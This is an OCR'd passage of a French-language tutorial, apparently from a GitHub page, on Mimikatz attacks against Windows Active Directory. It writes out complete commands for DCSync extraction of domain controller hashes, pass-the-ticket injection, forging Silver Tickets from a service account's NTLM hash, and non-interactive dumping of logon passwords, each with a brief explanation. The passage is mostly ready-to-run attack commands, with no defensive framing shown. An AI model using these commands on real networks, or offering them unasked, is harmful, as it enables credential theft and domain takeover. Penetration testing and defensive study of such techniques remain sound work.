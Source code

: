 #### 2. Extraction des Hashes du Contrôleur de Domaine

*   **Commande complète** :

    ```cmd
    privilege::debug
    lsadump::dcsync /domain:<domain_name> /user:<username>
    ```
* **Explication** :
  * Utilise la fonction DCSync pour simuler un contrôleur de domaine et obtenir les informations d'authentification des comptes.
  * `<domain_name>` : Nom du domaine cible.
  * `<username>` : Nom d’un compte utilisateur (ex. : `administrator`).

***

#### 3. Pass-the-Ticket avec un Ticket Kerberos

*   **Commande complète** :

    ```cmd
    kerberos::ptt ticket.kirbi
    ```
* **Explication** :
  * Injecte un ticket Kerberos récupéré précédemment pour accéder aux ressources du domaine cible.

***

#### 4. Attaque Silver Ticket

*   **Commande complète** :

    ```cmd
    kerberos::golden /domain:<domain_name> /sid:<domain_sid> /target:<target_service> /service:<service_name> /rc4:<service_account_hash>
    ```
* **Explication** :
  * Crée un ticket spécifique pour un service particulier (ex. : `CIFS` ou `HTTP`) en utilisant le hash NTLM du compte de service.

***

### 🔍 Étape 5 : Bonnes Pratiques et Techniques Avancées

***

#### 1. Utiliser Mimikatz en Mode Non Interactif

*   **Commande** :

    ```cmd
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
    ```
* **Explication** :
  * Exécute des commandes prédéfinies dans un script unique et quitte automatiquement.
